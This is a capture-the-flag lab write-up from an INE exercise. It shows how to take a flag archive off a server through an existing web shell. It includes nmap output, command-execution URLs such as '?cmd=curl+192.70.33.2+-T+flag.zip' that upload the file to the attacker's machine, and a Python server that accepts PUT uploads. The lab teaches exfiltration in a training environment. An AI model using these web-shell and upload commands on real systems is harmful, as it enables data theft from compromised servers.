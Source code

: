 # 🔬Data Exfiltration

The Kali OS GUI instance is web hosted on the INE website, where:

* You have exploited a vulnerable API endpoint and overwritten it with malicious code. This modification allows you to run commands on the server machine hosting the API, as a _low privilege user_ (i.e. student). A sensitive flag file is kept in a zipped archive file in the _student user's home directory_.
* There is a monitor process running on the server machine that blocks most protocols _except HTTP protocol_ (when using port **80**).
* The API endpoint is accessible at `demo.ine.local` domain.

_Objective_: Transfer the zipped archive to your Kali machine using HTTP protocol and retrieve the flag!

_**Tools**_ used:

* **`nmap`**, **`curl`**
* A web browser
* Python Scripting

## SOLUTION

*   Check Kali instance IP address and ping the vulnerable server.


```bash
ip -br -c a
ping demo.ine.local
```

```shell
root@INE:~# ip -br -c a
eth1@if126466    UP             192.70.33.2/24 
lo               UNKNOWN        127.0.0.1/8 
ip_vti0@NONE     DOWN           
eth0@if126463    UP             10.1.0.17/16

root@INE:~# ping demo.ine.local
PING demo.ine.local (192.70.33.3) 56(84) bytes of data.
64 bytes from demo.ine.local (192.70.33.3): icmp_seq=1 ttl=64 time=0.159 ms
```

* The web server IP is `192.70.33.3`

### nmap

*   Perform an `nmap` scan to check open ports on the server:

    *   _Simple scan_:

```bash
sudo nmap demo.ine.local
```

```bash
root@INE:~# sudo nmap demo.ine.local
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-05 15:34 IST
Nmap scan report for demo.ine.local (192.70.33.3)
Host is up (0.0000080s latency).
Not shown: 999 closed tcp ports (reset)
PORT     STATE SERVICE
8000/tcp open  http-alt
MAC Address: 02:42:C0:46:21:03 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.29 seconds
```

*   _Advanced scan_:

```bash
sudo nmap -sC -sV -oA nmap/dataexfiltration 192.70.33.3
```

**`-sC`** - for default scripts
**`-sV`** - probe open ports to determine service/versions info
**`-oA`** - output all 3 major formats in a directory

```shell
root@INE:~# less nmap/dataexfiltration.nmap

# Nmap 7.92 scan initiated Thu May  5 14:31:09 2022 as: nmap -sC -sV -oA nmap/dataexfiltration 192.70.33.3
Nmap scan report for demo.ine.local (192.70.33.3)
Host is up (0.0000080s latency).
Not shown: 999 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
8000/tcp open  http    Werkzeug httpd 0.15.2 (Python 2.7.16)
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
MAC Address: 02:42:C0:46:21:03 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu May  5 14:31:15 2022 -- 1 IP address (1 host up) scanned in 6.91 seconds
```

- A Python2 web server (Werkzeug) is running on open port **8000**.
- Check the response from a browser by visiting `http://demo.ine.local:8000/`

![](assets/image-20220505111539250.png)

### Web shell commands

* Pass a parameter named `cmd` with the URL, using `?cmd=VALUE` in the URL:
  * **`http://demo.ine.local:8000/?cmd=pwd`**

![](assets/image-20220505120650948.png)

* **`http://demo.ine.local:8000/?cmd=ls+-l`** - check contents of pwd:

![](assets/image-20220505120905753.png)

* _flag.zip_ file must be transferred to the Kali instance.
* Check if `curl` command is present on the server
  * **`http://demo.ine.local:8000/?cmd=curl+-h`** - curl is present:

![](assets/image-20220505121232523.png)

* `curl` can be used to exfiltrate the flag.zip file by sending it over HTTP protocol to a local HTTP server on the Kali instance, using the **`-T`** option:

> \-T, --upload-file This transfers the specified local file to the remote URL. If there is no file part in the specified URL, curl will append the local file name. NOTE that you must use a trailing / on the last directory to really prove to Curl that there is no file name or curl will think that your last directory name is the remote file name to use. That will most likely cause the upload oper‐ ation to fail. If this is used on an HTTP(S) server, the PUT command will be used.

### Python HTTP server

* Run a HTTP server on the local machine using python:

```bash
python -m SimpleHTTPServer 80
```


  * The Kali instance IP is `192.70.33.2`
  * `http://demo.ine.local:8000/?cmd=curl+192.70.33.2+-T+flag.zip`
  * _Error response - Unsupported method ('PUT')_

![](assets/image-20220505125425734.png)

* (Same error with **`python3 -m http.server 80`**)
*   Create a Python script to run an _HTTP server supporting PUT_.

```shell
root@INE:~# which python
/usr/bin/python

root@INE:~# nano httpserver.py
```

- Add the following code to the htttserver.py script:

```python
#!/usr/bin/python
import SimpleHTTPServer
import BaseHTTPServer

class SputHTTPRequestHandler(SimpleHTTPServer.SimpleHTTPRequestHandler):
    def do_PUT(self):
        print self.headers
        length = int(self.headers["Content-Length"])
        path = self.translate_path(self.path)
        with open(path, "wb") as dst:
            dst.write(self.rfile.read(length))

if __name__ == '__main__':
    SimpleHTTPServer.test(HandlerClass=SputHTTPRequestHandler)
```

> _Thanks to_ [_BigBlueHat_](https://gist.github.com/BigBlueHat/0ca3894f715aac2f2e40af3a8aa0a436) _for the script._

* Run the SimpleHTTP server using the script:

```bash
python httpserver.py 80
```

* Try again the PUT request `http://demo.ine.local:8000/?cmd=curl+192.70.33.2+-T+flag.zip`
  * Archive `flag.zip` was received by the server.

![](assets/image-20220505130449931.png)

* Stop the running HTTP server and check the folder for the downloaded file.

```bash
ls -l
```

![](assets/image-20220505131132654.png)

* Unzip the archive and retrieve the flag:

```bash
unzip flag.zip
cat flag/flag.txt
```

![](assets/image-20220505131635395.png)

> 📍 Lab solved!
>
> 📌 Check [An Introduction to Web Shells - by Acunetix](https://www.acunetix.com/blog/articles/introduction-web-shells-part-1/)
